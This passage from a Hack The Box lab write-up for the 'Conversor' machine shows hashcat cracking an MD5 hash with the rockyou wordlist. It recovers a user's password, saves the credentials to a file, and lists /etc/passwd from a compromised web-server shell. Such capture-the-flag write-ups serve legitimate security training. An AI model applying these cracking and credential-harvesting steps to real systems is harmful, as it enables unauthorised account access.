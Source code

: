 ```
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (5602 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5b5c3ac3a1c897c94caad48e6c71fdec:Keepmesafeandwarm

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 5b5c3ac3a1c897c94caad48e6c71fdec
Time.Started.....: Wed Oct 29 12:07:52 2025 (3 secs)
Time.Estimated...: Wed Oct 29 12:07:55 2025 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  3542.7 kH/s (0.25ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10977280/14344385 (76.53%)
Rejected.........: 0/10977280 (0.00%)
Restore.Point....: 10973184/14344385 (76.50%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: KeishayYashi -> Karamba
Hardware.Mon.#01.: Util: 27%

Started: Wed Oct 29 12:07:51 2025
Stopped: Wed Oct 29 12:07:57 2025
┌──(kali㉿kali)-[~/Desktop/HTB/Conversor]
└─$ echo "fismathack:5b5c3ac3a1c897c94caad48e6c71fdec:Keepmesafeandwarm" >> creds.txt
```
We have a credentials for user `fismathack`:`Keepmesafeandwarm`

fismathack is one of the developer based on `About` from **http://conversor.htb**. We also find the user in this machine:
```
www-data@conversor:~/conversor.htb/instance$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```